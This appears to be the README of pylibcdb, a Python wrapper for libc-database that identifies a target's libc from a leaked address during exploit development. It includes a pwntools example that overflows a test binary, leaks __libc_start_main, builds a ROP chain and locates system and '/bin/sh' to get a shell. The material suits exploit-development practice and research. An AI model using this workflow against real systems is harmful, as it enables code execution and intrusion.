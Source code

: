 # pylibcdb

pylibcdb is a python>=3.7 [libc_database](https://github.com/niklasb/libc-database) wrapper, its purpose is to improve exploit development tasks like ASLR bypass with an unknown libc.

With time i'd like to add more features and automated useful functions, for now this is the basic version.

### Requirements

There aren't python dependeces for now, but you need to install [libc_database](https://github.com/niklasb/libc-database) locally.

### Context

- x86_64 Linux

### Installation
```bash
git clone https://github.com/Neetx/pylibcdb
cd pylibcdb
python setup.py install
```

### Basic usage

```python
from pylibcdb.LibcDB import LibcDB

libcdb = LibcDB("/path/to/your/libc-database")
libc_name = libcdb.find_by_address("0x7fe7ac9a7fc0", symbol="__libc_start_main") #leaked __libc_start_main is default for symbol
print(libc_name)
libc_path = libcdb.download_by_name(libc_name)
print(libc_path)
```

```
libc6_2.31-0ubuntu9.1_amd64
/path/to/your/libc-database/libs/libc6_2.31-0ubuntu9.1_amd64/libc-2.31.so
```
This .so can be easily analyzed (or used with [pwntools](https://github.com/Gallopsled/pwntools) ELF()) to discovery function addresses and build a ROP chain.
In this way there's no need to launch "find" and "download" scripts manually with several copy-paste.

#### A more detailed example

```python
from pwn import *
from pylibcdb.LibcDB import LibcDB

p = process("./vuln_test")
elf = ELF("./vuln_test")
rop = ROP(elf)

puts = elf.plt['puts']
main = elf.symbols['main']
libc_start_main = elf.symbols['__libc_start_main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]

base_payload = "A"*32 + "B"*8    #this must change for every target binary
rop = base_payload.encode() + p64(pop_rdi) + p64(libc_start_main) + p64(puts) + p64(main)

p.sendline(rop)   #this sending and receiving changes for every target binary
received = p.recvline().strip()
leak = u64(received.ljust(8, "\x00".encode()))

libcdb = LibcDB("/path/to/your/libc-database")
libc_name = libcdb.find_by_address(leak, symbol="__libc_start_main") #leaked __libc_start_main is default for symbol
libc_path = libcdb.download_by_name(libc_name)

libc = ELF(libc_path)
libc.address = leak - libc.sym["__libc_start_main"]

binsh = next(libc.search("/bin/sh".encode()))
system = libc.sym["system"]
```

At this point we have all we need to craft a final ROP chain and get shell. This is a workflow example in facts things may (sure) change for each scenario, but the idea is to not let target binary crashes and not stop the exploit execution to launch libc-database scripts manually.

Later I will release a complete and working example with a vulnerable binary.

#### Scripts
Without this library you have to launch:
```
./find __libc_start_main LEAKED_ADDRESS
./download LIBC_NAME_OUTPUT
```
And then you have to copy the shared object to your working directory or to use its absolute path.

#### Multiple output
Often there are multiple libc candidates, specially using only one leaked address (for now it works only in this way).
Now you can choose which libc to get and use, you should make a choice second your context and information you have

Example:
```
[*] Leaked libc address,  __libc_start_main: 0x7f9342728b10
Select version:
1 - ubuntu-old-eglibc (libc6_2.11.1-0ubuntu7.21_i386)
2 - ubuntu-glibc (libc6_2.27-3ubuntu1.3_amd64)
3 - ubuntu-old-eglibc (libc6-i386_2.11.1-0ubuntu7.21_amd64)
4 - ubuntu-old-glibc (libc6-x32_2.21-0ubuntu4.3_amd64)
5 - ubuntu-old-glibc (libc6-x32_2.21-0ubuntu4.3_i386)
>2
NAME OF DISCOVERED LIBC: libc6_2.27-3ubuntu1.3_amd64
PATH OF DISCOVERED LIBC: /home/neetx/software/libc-database/libs/libc6_2.27-3ubuntu1.3_amd64/libc-2.27.so
```

### Contacts

[neetx](neetx@protonmail.com)

### License

Copyright 2020 Neetx

This file is part of pylibcdb.

pylibcdb is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

pylibcdb is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with pylibcdb.  If not, see <http://www.gnu.org/licenses/>.